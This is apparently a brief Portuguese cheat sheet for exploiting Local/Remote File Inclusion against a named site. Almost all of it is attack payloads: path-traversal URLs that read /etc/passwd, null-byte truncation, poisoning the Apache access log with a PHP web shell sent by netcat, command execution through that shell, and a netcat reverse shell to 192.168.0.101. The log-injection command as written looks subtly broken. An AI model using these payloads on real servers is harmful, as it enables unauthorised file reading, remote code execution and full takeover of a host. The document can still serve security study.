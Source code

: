 # LFI/RFI Local/Remote File Include

Procure no site algum link que chame alguma página com o parâmetro GET:
rh.businesscorp.com.br/index.php?page=login

Troque o parâmetro do GET por arquivos sensíveis do servidor:
rh.businesscorp.com.br/index.php?page=/../../etc/passwd
*Caso a aplicação utilize a adição de extenção logo depois do arquivo, será necessário testar com **nullbyte**.*

rh.businesscorp.com.br/index.php?page=/../../etc/passwd%00
nullbyte = %00

Podemos carregar o access.log do servidor, normalmente em:
/var/log/apache2/access.log%00
rh.businesscorp.com.br/index.php?page=/../../var/log/apache2/access.log%00

Com isso iremos infectar o access.log com um código malicioso:
nc -v rh.businesscorp.com.br 80 < "<?php system($_GET['cmd']); ?>"

Agora basta informar um parâmetro para o cmd:
rh.businesscorp.com.br/index.php?cmd=ls -la&page=/../../var/log/apache2/access.log%00
rh.businesscorp.com.br/index.php?cmd=uname -a&page=/../../var/log/apache2/access.log%00
rh.businesscorp.com.br/index.php?cmd=nc 192.168.0.101 443 -e /bin/bash&page=/../../var/log/apache2/access.log%00
